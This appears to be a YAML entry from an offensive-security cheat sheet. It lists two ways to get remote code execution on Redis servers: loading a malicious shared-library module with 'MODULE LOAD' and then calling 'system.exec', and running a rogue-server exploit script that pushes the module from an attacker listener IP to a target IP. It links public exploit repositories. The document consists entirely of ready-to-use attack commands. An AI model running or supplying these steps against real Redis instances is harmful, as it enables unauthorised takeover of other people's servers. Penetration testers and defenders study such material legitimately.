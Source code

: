```yaml
---
functions:
  gain-access:
    - description: Redis Command Execution
      code: |
        (1) Upload a shared library to a know filepath
        	https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so

        (2) redis-cli -h 192.168.208.93
        	MODULE LOAD <full-path-to-exp.so>/exp.so

        (3) system.exec 'id'

    - description: Redis Rogue Server
      code: |
         python2 redis-rce.py -r 192.168.200.93 -L 192.168.49.200 -f exp.so
         https://github.com/Ridter/redis-rce
         https://github.com/n0b0dyCN/redis-rogue-server/blob/master/exp.so
         
---
```

